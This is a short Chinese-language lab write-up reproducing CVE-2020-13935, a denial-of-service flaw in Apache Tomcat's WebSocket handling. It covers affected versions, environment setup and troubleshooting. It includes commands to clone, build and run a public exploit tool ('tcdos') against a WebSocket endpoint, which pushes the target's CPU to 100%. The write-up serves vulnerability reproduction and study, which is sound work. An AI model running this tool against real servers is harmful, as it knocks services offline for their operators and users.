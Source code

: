 # 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：apache-tomcat-8.5.56

# 0x02 环境搭建
靶机系统：2008_r2_standard_zh-chs  
下载并解压apache-tomcat-8.5.56  
进入目录bin并执行startup.bat，出现“Server startup in xx ms”，通常表示启动成功，如下图  
![image](./a.png)  
访问[http://172.16.35.133:8080/](http://172.16.35.133:8080/)，确认服务成功启动，如下图  
![image](./b.png)

# 0x03 利用条件
Tomcat上部署了WebSocket应用，如examples/websocket

# 0x04 影响版本
9.0.0.M1 <= apache tomcat <= 9.0.36  
10.0.0-M1 <= apache tomcat <= 10.0.0-M6  
8.5.0 <= apache tomcat <= 8.5.56  
7.0.27 <= apache tomcat <= 7.0.104  

# 0x05 漏洞复现
攻击系统：Kali-Linux-2020.2-vmware-amd64  
执行如下命令：  
git clone https://github.com/RedTeamPentesting/CVE-2020-13935  
cd CVE-2020-13935  
go build  
./tcdos ws://172.16.35.133:8080/examples/websocket/echoProgrammatic  
执行后靶机系统CPU骤升到100%，如下图  
![image](./c.png)

# 0x06 踩坑记录
坑1：  
执行go build后，可能会报如下错误  
![image](./d.png)  
此时需要一些合理上网方式，成功执行后如下图  
![image](./e.png)  

# 0x07 参考链接
无
